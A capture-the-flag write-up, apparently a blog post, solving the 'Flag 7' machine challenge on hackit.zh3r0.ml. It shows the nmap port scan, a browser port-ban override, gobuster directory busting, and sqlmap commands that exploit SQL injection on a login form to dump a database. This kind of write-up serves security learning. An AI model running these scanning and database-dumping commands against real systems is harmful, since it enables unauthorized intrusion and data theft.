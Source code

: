 ```yaml
---
layout: post
title: "Flag 7"
author: "shreyas-sriram"
---
```


# Category
Subset of subset of hacking machines challenges

# Challenge
## Flag 7
We are given a URL - ``` hackit.zh3r0.ml ```

# Solution

> Optional: Find IP address of the given domain using **ping**

Since it is a machine, begin with a full port scan

``` nmap -T4 -sC -sV -p- hackit.zh3r0.ml ```

> Note: Not sure if I used the right [options], run ``` nmap --help ``` for better understanding and optimisation

This reveals all the open ports and services running on each port. Also notice that the services running are all mixed up.

```
22/tcp    open     http
25/tcp    filtered smtp
99/tcp    open     ssh
324/tcp   open     ftp
4994/tcp  open     unknown
11211/tcp filtered memcache
```

* Since ``` http ``` is running on port ``` 22 ```, it will be restricted by the browser and we will not be able to access it directly. There are two ways around this problem.
	1. Allow restricted ports in Firefox Browser
		* Go to ``` about:config ``` in Firefox address bar
		* Add a string with name and value as
		```
		name  : network.security.ports.banned.override
		value : 22
		```
		* Access ``` http://hackit.zh3r0.ml:22/robots.txt ```
	2. Access the webpage through cURL or wget\
	``` curl http://hackit.zh3r0.ml:22/robots.txt ```\
	``` wget http://hackit.zh3r0.ml:22/robots.txt ```
* There is a clue which has something to do with **ads**. There are two ways to go about this.
	1. Make a guess to visit ``` http://hackit.zh3r0.ml:22/ads.txt ```
		* Obtain a string encoded in ``` Base 62 ``` (Damn, these aren't the bases I am aware of :tired_face:)
		* Use https://gchq.github.io/CyberChef/ to decode and get another webpage ``` /index2.html ```
		* This page contains a login
	2. Use directory busting tools on ``` http://hackit.zh3r0.ml:22/ ```
		* ``` gobuster dir -u http://hackit.zh3r0.ml:22/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -t 50 -x php,txt,html,htm ```
		* ``` dirbuster ``` - GUI tool
		* This also reveals ``` /index2.html ``` without getting to ``` ads.txt ```
* The login in page ``` /index2.html ``` seems to be vulnerable to **SQL Injection**, we can exploit it using ``` sqlmap ```
	* To retrieve databases, use the command\
	``` sqlmap -u http://139.59.3.42:22/ --data="username=f4k3&amp;password=fl4g" --method POST --dbs --batch ```
	* There are 4 databases, of which **users** seems interesting
	* To retrieve all information about a database, use the command\
	``` sqlmap -u http://139.59.3.42:22 --data="username=f4k3&amp;password=fl4g" --method POST -D users --dump all --batch ```
	* This gets us **Flag 7**\
	``` zh3r0{Dangit_you_are_good!} ```
	> Note: **sqlmap** takes quite sometime, so grab a snack while you watch the flag unfold :cookie:
